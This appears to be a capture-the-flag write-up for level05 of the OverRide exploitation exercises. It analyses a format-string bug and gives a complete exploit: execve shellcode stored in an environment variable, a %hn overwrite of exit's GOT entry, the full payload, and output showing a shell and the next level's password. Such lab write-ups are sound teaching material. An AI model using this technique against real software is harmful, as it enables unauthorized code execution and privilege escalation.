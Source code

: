 # level05

### First analysis

So for this level we have this result for the checksec:

```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

No security at all, not even a Partial RELRO, no canary, no NX, no PIE. This should be pretty easy to exploit.

```c
int main(void) {
    char    buffer[100];
    int     len;

    fgets(buffer, 100, stdin);
    len = strlen(buffer);
    for (int i = 0; i < len; i++) {
        if (buffer[i] >= 'A' && buffer[i] <= 'Z')
            buffer[i] ^= 0x20;
    }
    printf(buffer);

    exit(0);
}
```

For the code part this is again very straightforward, they ask a user input of 100 chars into a fgets, secured. Then a toLower kind of function, that check if there is a caps lock character (between 65 and 90 in hex code) a XOR operation will be made to pass it to lower case.

As we can see pretty easily there is a format string vulnerability as well taht we can easily verify:

```sh
level05@OverRide:~$ ./level05 
%x %x %x %x %x %x
64 f7fcfac0 f7ec3add ffffd4df ffffd4de 0
```

Also important information, exit is used to leave the program, not just a return.

### Solution

We already faced a similar situation [here](https://github.com/kbarbry/RainFall/blob/d5080293ad31339b5e9f40608ac28f02c087d5a4/level4/README.md) which is actually very very close. We know that RELRO is not secured, so the GOT (Global Offset Table) is not in read-only, and we can overwrite it. How ? With the the format string vulnerability we can use the "%n" flag, that will write the numbers of characters written so far into the address indicated. For example:

```c
printf("Hello World!%n", &addr);
```

This line would write 12 at addr. With this method we can write arbitrary values in a specific address. But how can we select the right address ?

If we want to exploit the GOT, we have to overwrite the address of exit, so let's first find this address:

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	push   %edi
   [...]
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```

So the address of exit is "0x08048376", but we don't pay attention about this value the interesting one is where is stored exit address in the GOT, which is "0x80497e0". So this is where we have to write something, what ? Well can be anything but we are going to use the env variable with a shellcode in it, so let's do the basic with the env_address.c that you can find in the Resources folder. Let's not forget to compile it in 32bit mode:

```sh
level05@OverRide:/tmp$ export SHELLCODE=$(python -c "print('\x90' * 50 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
level05@OverRide:/tmp$ gcc -m32 env_address.c
level05@OverRide:/tmp$ ./a.out SHELLCODE
Searching address of SHELLCODE env variable:
Big-endian format: 0xffffd8cf
Lil-endian format: \xcf\xd8\xff\xff
```

So we now have everything, we have to write 0xffffd8cf, the shellcode address, at 0x80497e0, the GOT address that contains the exit address. Now to build the buffer we are going to use a optimized way that we explained in details on how to build [here](https://github.com/kbarbry/RainFall/blob/d5080293ad31339b5e9f40608ac28f02c087d5a4/level4/Resources/explanation.md).

We are going to explain very fast here how we do it with not a lot of explanations. So first we want to write in 0x80497e0 address and 0x80497e0 + 2, so we can use %hn, that store half a 32bit address long, so 16bit. we write half the bytes in 0x80497e0, then half of the other bytes in 0x80497e0 + 2. This way we optimize the number of character to write by 99% (really). So first the two addresses in little endian:

- 0x80497e0 = \xe0\x97\x04\x08
- 0x80497e2 = \xe2\x97\x04\x08

We now have to write 0xffffd8cf into these 2 addresses, let's divide the content into two parts of 16bit:

- ffff - high order bytes - 65535
- d8cf - low order bytes - 55503

That's where we see that the optimization is interesting, writing 121.038 chars (65535 + 55503) is more efficient than writing 4.294.957.263 chars (0xffffd8cf in decimal), a good optimization of 99.993%.

Now where to write all of this ? Well by analyzing the stack:

```sh
level05@OverRide:~$ ./level05 
AAAA %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3add ffffd6af ffffd6ae 0 ffffffff ffffd734 f7fdb000 61616161
```

As we can see the buffer is stored after 10 stack memory slots. We can now make a first version of our payload:

```
'\xe2\x97\x04\x08' + '\xe0\x97\x04\x08' + '%8x' * 10 + '%hn' + '%hn'
```

When testing this first payload:

```sh
(gdb) run < /tmp/payload
Starting program: /home/users/level05/level05 < /tmp/payload
�      64f7fcfac0f7ec3addffffd67fffffd67e       0ffffffffffffd704       0

Program received signal SIGSEGV, Segmentation fault.
0x00500050 in ?? ()
```

So we have indeed a a segfault to a weird address that seemingly wrote 0x50, so 80 in decimal into both addresses, which correspond to the number of char we wrote (8 bits of addresses, and 9 * 8 stack memory space printed so 72). Now we just have to add to that the right values, 65535 first, then 55503. Problem, the first value is higher than the second one so we have to reverse it, we are gonna reverse both addresses, and start with 55503, and end with 10032 (65535 - 55503 already printed):

```
'\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%8x' * 8 + '%55431x' + '%hn' + '%10032x' + '%hn'
```

The payload is almost done, let's not forget that '%x' consume an argument, so a memory space so by writing the last '%x' we are actually printing the second address, to avoid that we just write a random value in between the address and we get:

```
'\xe0\x97\x04\x08' + 'AAAA' + '\xe2\x97\x04\x08' + '%8x' * 8 + '%55427x' + '%hn' + '%10032x' + '%hn'
```

As a final explanation we used in this payload, first the address of the lower bytes, then 4 A that we use as a useless argument that will be used by a padding %x, then the address of the hifhrt bytes, then we print 8 space memory, and one more with a padding of 55427 (55503 - 8 * 8 for the %8x, and - 12 for the 2 addresses and the AAAA), then we use the first %hn that will print 55503 into 0x80497e0, then we use a new %x padding, the one that uses the AAAA argument with a padding of 10032 (65535 - 55503) and the final %hn that will print 65535 into 0x80497e2. We can try it:

```sh
level05@OverRide:~$ echo $(python -c "print('\xe0\x97\x04\x08' + 'AAAA' + '\xe2\x97\x04\x08' + '%8x' * 8 + '%55427x' + '%hn' + '%10032x' + '%hn')") > /tmp/payload
level05@OverRide:~$ cat /tmp/payload - | ./level05 
�aaaa      64f7fcfac0f7ec3addffffd6afffffd6ae       0ffffffffffffd734
[...]
    f7fdb000
[...]
    61616161
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

## Important doc

[Similar exercise](https://github.com/kbarbry/RainFall/blob/d5080293ad31339b5e9f40608ac28f02c087d5a4/level4/README.md)
